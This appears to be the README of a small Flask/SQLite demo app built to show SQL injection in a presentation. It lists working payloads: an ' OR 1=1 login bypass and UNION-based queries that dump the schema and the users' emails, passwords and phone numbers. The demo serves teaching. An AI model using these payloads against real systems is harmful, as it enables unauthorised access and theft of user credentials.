 
# Basic SQL Injection Demo
A simple web application to demonstrate basic level SQL Injection attack manually for the presentation. Some main functions: log-in, find the items with a search bar.

### Prerequisites
- Flask, Python, SQLite

### Some payloads for the attack
```
##### Login Form
- Blind SQLi: Perform in the log-in form with the Boolean-based SQLi technique to force the query always return TRUE in order to bypass authentication.
```
' OR 1=1 --
```
##### Search bar
-	In-band SQLi: Perform in the search bar with UNION-based SQLi technique to combine the query result to get unauthorized data from the database.
```
' UNION SELECT sqlite_version(), 2, 3 --
```
```
' UNION SELECT 1, sql, 3 FROM sqlite_master WHERE type='table'--
```
```
' UNION SELECT email, password, phone  FROM users -- 
```
